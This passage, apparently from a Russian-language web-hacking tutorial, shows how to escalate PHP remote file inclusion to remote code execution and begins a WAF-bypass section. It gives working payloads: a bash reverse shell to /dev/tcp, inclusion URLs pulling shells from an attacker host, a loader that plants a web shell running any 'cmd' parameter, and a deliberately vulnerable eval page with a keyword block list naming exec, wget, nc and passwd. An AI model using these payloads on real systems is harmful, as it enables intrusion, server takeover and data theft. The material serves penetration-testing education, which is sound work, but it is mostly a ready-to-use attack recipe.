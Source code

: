 RFI довольно просто раскрутить до RCE, даже не включая всех методов выше: достаточно заинклудить свой шел с удаленного хоста `myevilsite`, и он выполнится на стороне сервера с `vulnsite`:<br>`http://vulnsite/vuln.php?file=http://myevilsite/reverse-shell.php`

Реверс-шел может быть таким:

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"); ?>
```

Или же мы можем узнать полный путь скрипта vuln.php, отправив полезной нагрузкой `phpinfo()`:
- запрос: `http://vulnsite/vuln.php?file=http://myevilsite/getinfo.php`
- файл: `getinfo.php`

И затем, вторым запросом записать в эту директорию шелл:

- запрос: `http://vulnsite/vuln.php?file=http://myevilsite/shell-loader.php`
- файл `shell-loader.php`
```sql
<?phpcopy('http://myevilsite/а_тут.шелл','/полный/путь/до/сайта/который/мы/взяли/из/phpinfo/shell.php');?>
```
- файл: `shell.php: <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

Теперь при обращении к `shell.php` на сайте `vulnsite.com` он будет принимать любой код в переменную cmd. Так, например, на сервере выполнится команда `ls`:<br>`http://vulnsite.com/shell.php?cmd=ls`

На данный момент мы имеем арсенал техник обхода фильтров и получения RCE. Много техник кануло в лету, баги в движке PHP, которые можно было использовать пару лет назад, сейчас уже не дают результатов. Но старые техники все равно могут пригодиться при реальном тестировании, так как очень часто можно встретить веб-приложения, которые давно не обновлялись.

##### WAF Bypass

В этой части вы узнаете некоторые трюки, которые позволят обойти слабо продуманные проверки пользовательского ввода, а также плохо настроенные системы обнаружения. Для начала создадим заведомо уязвимое приложение:

```html
<!DOCTYPE html>
<html lang="en">
<head>
 <meta charset="UTF-8">
 <title>Document</title>
</head>
<body>
 <?php  


  if (isset($_GET['cmd'])) {
   $cmd = $_GET['cmd'];


   if
(preg_match('/system|exec|passthru|shell_exec|ls|wget|nc|passwd/', $cmd))
{
    echo "hacker detect!";
   }else{
    eval($cmd);
   }
  }


?>
</body>
</html>
```
